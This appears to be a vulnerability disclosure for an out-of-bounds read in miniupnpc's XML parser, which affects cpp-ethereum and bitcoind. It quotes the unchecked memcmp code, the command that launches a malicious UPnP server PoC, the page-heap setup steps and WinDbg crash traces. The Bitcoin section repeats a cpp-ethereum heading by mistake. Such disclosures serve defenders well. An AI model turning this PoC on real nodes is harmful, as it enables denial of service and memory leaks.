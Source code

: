 Description:

When miniupnpc parses a xml, it fails to check the end of the xml buffer, which could lead to read out of bounds of the buffer.
This can cause DOS or information leak.

In function

void parseelt(struct xmlparser * p):


					if(memcmp(p->xml, "<![CDATA[", 9) == 0)		// (1)  Failed to do bound check prior to "memcmp" here
					{
						/* CDATA handling */
						p->xml += 9;
						data = p->xml;
						i = 0;
						while(memcmp(p->xml, "]]>", 3) != 0)


To test:

The poc was tested on windows 10 64-bits.

First start the malicious upnp server:

python poc.py --listen 127.0.0.1:65000 --target havoc


1. For cpp-ethereum 1.3.0


1.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

1.1.1 Install Windbg x64

1.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i eth.exe +hpa


1.2 Start eth to observe the crash:

C:\Users\test>C:\cpp-ethereum\cpp-ethereum\build64\eth\Release\eth.exe

Crash Info:

(c60.41b4): Access violation - code c0000005 (!!! second chance !!!)

VCRUNTIME140!memcmp+0x90:

00007ffa`6764c320 488b01          mov     rax,qword ptr [rcx] ds:000002aa`02afb000=????????????????

0:018> k

Child-SP          RetAddr           Call Site

000000f8`56ffeea8 00007ff6`65d9af8f VCRUNTIME140!memcmp+0x90 [f:\dd\vctools\crt\vcruntime\src\string\amd64\memcmp.asm @ 150]

000000f8`56ffeeb0 00007ff6`65d9abe3 eth!parsexml+0x3ff

000000f8`56ffef20 00007ff6`65d93b09 eth!parsexml+0x53

000000f8`56ffef50 00007ff6`65c15d46 eth!parserootdesc+0x89

000000f8`56ffeff0 00007ff6`65bf7378 eth!dev::p2p::UPnP::UPnP+0x236 [c:\cpp-ethereum\cpp-ethereum\libp2p\upnp.cpp @ 79]

000000f8`56fff300 00007ff6`65c0722c eth!dev::p2p::Network::traverseNAT+0x138 [c:\cpp-ethereum\cpp-ethereum\libp2p\network.cpp @ 183]

000000f8`56fff470 00007ff6`65c12a18 eth!dev::p2p::Host::determinePublic+0x71c [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 407]

000000f8`56fff8b0 00007ff6`65b87596 eth!dev::p2p::Host::startedWorking+0x208 [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 751]

000000f8`56fffa20 00007ff6`65b87917 eth!dev::validateFieldNames+0x5f6

000000f8`56fffc50 00007ff6`65aa37e9 eth!dev::validateFieldNames+0x977

000000f8`56fffc90 00007ffa`69d7dc05 eth!std::_Pad::_Call_func+0x9

000000f8`56fffcc0 00007ffa`6b921fe4 ucrtbase!thread_start<unsigned int (__cdecl*)(void * __ptr64)>+0x35

000000f8`56fffcf0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14

000000f8`56fffd20 00000000`00000000 ntdll!RtlUserThreadStart+0x21



2. For BitCoin


2.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

2.1.1 Install Windbg x64

2.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i bitcoind.exe +hpa


2.2 Start bitcoind to observe the crash:

"C:\Program Files\Bitcoin\daemon\bitcoind.exe" -upnp



Crash Info:



(2648.4824): Access violation - code c0000005 (first chance)

First chance exceptions are reported before any exception handling.

This exception may be expected and handled.

msvcrt!memcmp+0x90:

00007ffa`6b6ab890 488b01          mov     rax,qword ptr [rcx] ds:00000002`663f1000=????????????????

*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Bitcoin\daemon\bitcoind.exe - 

0:001> k

Child-SP          RetAddr           Call Site

00000000`0797de98 00000000`00efca10 msvcrt!memcmp+0x90

00000000`0797dea0 00000000`00ef99a3 bitcoind!secp256k1_ecdsa_recover+0x1eb9e0

00000000`0797df00 00000000`00efa005 bitcoind!secp256k1_ecdsa_recover+0x1e8973

00000000`0797df80 00000000`00a840a1 bitcoind!secp256k1_ecdsa_recover+0x1e8fd5

00000000`0797e070 00000000`00f84e07 bitcoind+0x940a1

00000000`0797f370 00000000`00d3d99f bitcoind!secp256k1_ecdsa_recover+0x273dd7

00000000`0797f660 00007ffa`6b68a8e6 bitcoind!secp256k1_ecdsa_recover+0x2c96f

00000000`0797f870 00007ffa`6b68a9bc msvcrt!_callthreadstartex+0x1e

00000000`0797f8a0 00007ffa`6b921fe4 msvcrt!_threadstartex+0x7c

00000000`0797f8d0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14

00000000`0797f900 00000000`00000000 ntdll!RtlUserThreadStart+0x21





Special Thanks:

I'd like to thank to "tintinweb" for his excellent work on CVE-2017-8798:


https://github.com/tintinweb/pub/tree/master/pocs/cve-2017-8798


I heavily reused his poc code in this poc